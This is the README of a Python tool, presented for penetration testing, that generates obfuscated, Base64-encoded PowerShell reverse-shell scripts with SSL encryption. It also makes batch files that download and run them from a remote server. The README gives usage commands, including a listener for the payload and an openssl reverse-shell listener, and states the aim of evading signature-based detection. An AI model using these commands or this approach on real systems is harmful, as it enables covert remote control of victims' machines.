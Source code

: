 # Reception: Reverse Shell Generator with SSL Encryption

## Overview

**Reverse** is a Python-based tool designed to generate obfuscated PowerShell scripts or batch files for establishing a reverse shell with SSL encryption. This tool can help in penetration testing scenarios where the goal is to bypass security mechanisms and establish a secure connection to a target machine.

## Features

- **Reverse Shell with SSL Encryption:** Generates PowerShell scripts that establish an encrypted reverse shell connection using SSL.
- **Obfuscation:** Each generated PowerShell script uses randomly selected variable names to avoid signature-based detection by security tools.
- **Base64 Encoding:** The PowerShell scripts are encoded in Base64 for additional obfuscation.
- **Batch File Generation:** Create a batch file that downloads and executes the encoded PowerShell script directly from a remote server.
- **Customizable:** Users can specify the IP address, port, and server URL for downloading the PowerShell script.

### Prerequisites

- Python 3.x
- OpenSSL (for certificate generation)

### Installation

Clone the repository:

```bash
git clone https://github.com/ShkudW/Reverser.git
cd Reception
```

## Usage

Generate an Encoded PowerShell Script:
```bash
python3 Reverser.py -ip <Your_Listener_Server_IP> -port <Your_Listener_Server_PORT> -type ps1
```

Generate a Batch File and PowerShell Script:
```bash
python3 Reverser.py -ip <Your_Listener_Server_IP> -port <Your_Listener_Server_PORT> -type bat -server http://<Your_Server_ip|URL>/<File-Name>.ps1
```

Open a listener for downloadingg the PS1 file with listener.py:
```bash
python3 listener.py -port <Your_Server_PORT>
```

Open a listener for getting Reverse-Shell with OpenSSL:
```bash
openssl s_server -accept <Your_Listener_Port> -cert reception.pem -key reception.key -quiet
```

## PoC:
Generate a Batch File that downloading and executing a PS1 file:

![image](https://github.com/user-attachments/assets/4816ff7f-e694-413b-8a82-eb6eec74df65)


Running the Batch file on the target machine, the connection is not secure yet, and headers that look legitimate are passed:

![image](https://github.com/user-attachments/assets/87a630c3-2310-4f91-a8fe-d0948523de2f)


Running the listener server and getting a request for downloaing the PS1 file:

![image](https://github.com/user-attachments/assets/14618c88-ba1b-452d-8b26-5e803c47772d)


Traffic is secure:

![image](https://github.com/user-attachments/assets/42f5453d-4687-4432-bfb4-070074260549)


Getting a Secure Reverse Shell:

![image](https://github.com/user-attachments/assets/16ecaf01-05fa-4e18-84a6-c063937ad808)




